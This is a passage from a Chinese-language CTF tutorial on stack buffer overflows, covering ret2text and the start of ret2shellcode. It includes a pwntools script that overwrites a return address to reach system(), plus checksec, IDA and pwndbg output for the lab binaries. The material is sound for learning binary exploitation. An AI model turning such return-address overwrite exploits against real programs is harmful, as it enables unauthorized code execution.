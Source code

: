 ![rep](https://i.loli.net/2018/10/27/5bd46ff13b85d.png)
我们输入s是esp+1c 我们用gdb在调用gets函数位置下一个断点 看一下ebp和esp寄存器
![rep](https://i.loli.net/2018/10/27/5bd47066744ba.png)
会发现我们写入的s(0xffffd27c)与栈底指针rbp(0xffffd2e8)偏移了0x6c 在加入返回地址4字节偏移
所以我们一共要覆盖掉0x6c+4字节数据在加入system函数地址 就可以使用gets返回地址返回到system函数去
```python
##!/usr/bin/python
from pwn import *
sh = process('./ret2text') 
target = 0x804863a   //嗲用system函数的地址
sh.sendline('A' * (0x6c+4) + p32(target))  //0x6c+4的覆盖再加上返回地址
sh.interactive()
```
![rep](https://i.loli.net/2018/10/27/5bd471c58b46e.png)

<h2>ret2shellcode</h2>
原理:ret2shellcode，即控制程序执行 shellcode 代码。shellcode 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。一般来说，shellcode 需要我们自己填充。这其实是另外一种典型的利用方法，即此时我们需要自己去填充一些可执行的代码。
在栈溢出的基础上，要想执行 shellcode，需要对应的 binary 在运行时，shellcode 所在的区域具有可执行权限。
原理介绍来自CTF-wiki
先checksec保护

```bash
[ 10:12下午 ]  [ root@pgone:~/Rep ]
 $ checksec ret2shellcode 
[*] '/root/Rep/ret2shellcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
没有NX代码执行保护 那我们可以加入自己的shellcode 拖入IDA了解下
```c++
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets((char *)&v4);
  strncpy(buf2, (const char *)&v4, 0x64u);
  printf("bye bye ~");
  return 0;
}
```
会发现在进行gets函数之后 又赋值给buf2
![rep](https://i.loli.net/2018/10/27/5bd473aca9270.png)
查看知道buf2存在于bss段 也就是全局段 那我们要看下该段能否执行
```bash
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 0x8048000  0x8049000 r-xp     1000 0      /root/Rep/ret2shellcode
 0x8049000  0x804a000 r-xp     1000 0      /root/Rep/ret2shellcode
 0x804a000  0x804b000 rwxp     1000 1000   /root/Rep/ret2shellcode
0xf7dd1000 0xf7dea000 r-xp    19000 0      /lib32/libc-2.27.so
0xf7dea000 0xf7fa4000 r-xp   1ba000 19000  /lib32/libc-2.27.so
0xf7fa4000 0xf7fa5000 ---p     1000 1d3000 /lib32/libc-2.27.so
0xf7fa5000 0xf7fa7000 r-xp     2000 1d3000 /lib32/libc-2.27.so
0xf7fa7000 0xf7fa8000 rwxp     1000 1d5000 /lib32/libc-2.27.so
0xf7fa8000 0xf7fab000 rwxp     3000 0      
0xf7fce000 0xf7fd0000 rwxp     2000 0      
```